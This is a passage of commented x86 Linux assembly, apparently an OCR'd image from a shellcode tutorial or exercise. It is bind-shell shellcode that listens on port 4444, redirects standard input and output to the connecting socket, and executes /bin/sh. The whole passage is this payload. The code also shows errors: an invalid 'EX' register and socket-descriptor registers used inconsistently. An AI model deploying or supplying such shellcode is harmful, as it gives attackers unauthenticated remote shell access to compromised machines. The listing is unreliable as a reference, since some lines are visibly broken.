 ```
    
        ; bind syscall
        XOR  ECX, ECX    ; clear ECX so that we can push zero to the stack
        PUSH ECX         ; push INADDR_ANY = 0.0.0.0 to the stack
        PUSH ECX
        PUSH word 0x5c11 ; push hex 0x115c (dec 4444) in reverse oreder due to little endian
        PUSH word 0x2   ; push hex 0x02 (dec 2) on the stack. 2 represents AF_INET
        MOV ECX, ESP     ; move address pointing to the top of the stack to ECX

        MOV EBX, EAX     ; copy value from EAX to EBX, EAX holds pointer to socket descriptor as result of socket call
        MOV AX, 0x169    ; move bind syscall number in EAX register
        MOV DL, 0x16     ; move value 0x16 to EDX as third parameter
        INT 0x80         ; interrupt

        ; listen syscall
        XOR EAX, EAX     ; set EAX to zero
        MOV AX, 0x16B    ; move 0x16B to EAX
        MOV EBX, EDI     ; move socket descriptor into EBX as first argument
        MOV CL,  0x2     ; move "2" as backlog into ECX as second argument
        INT 0x80         ; interrupt

        ; accept syscall
        XOR EAX, EAX     ; set EAX to zero for clean start
        MOV EX, 0x16C    ; move accept syscall number (0x16C) in EAX
        MOV EBX, EDI     ; move socket descriptor from EDI to EBX as first argument
        XOR ECX, ECX     ; set ECX to zero as argument is NULL
        XOR EDX, EDX     ; set EDX to zero as argument is NULL
        XOR ESI, ESI     ; set flag to 0 by XOR-ing
        INT 0x80         ; interrupt

        XOR EDI, EDI     ; set EDI to zero
        MOV EDI, EAX     ; As result, new socket descriptor will be saved in EAX 
                         ; so we can move it to EDI for further use.

        ; dup2 syscall
        MOV CL, 0x3     ; putting 3 in the counter

LOOP_DUP2:
        XOR EAX, EAX    ; clear EAX
        MOV AL, 0x3F    ; putting the syscall code in EAX
        MOV EBX, EDI    ; putting our new socket descriptor in EBX
        DEC CL          ; decrementing CL by one (so at first CL will be 2 then 1 and then 0)
        INT 0x80        ; interrupt
        JNZ LOOP_DUP2   ; "jump non zero" jumping back to the top of LOOP_DUP2 if the zero flag is not set

 
        ; execve syscall
        XOR EAX, EAX
        PUSH EAX
        PUSH 0x68732f6E
        PUSH 0x69622f2F
        MOV EBX, ESP
        PUSH EAX
        MOV EDX, ESP
        PUSH EBX
        MOV ECX, ESP
        MOV AL, 0x0B
        INT 0x80
```

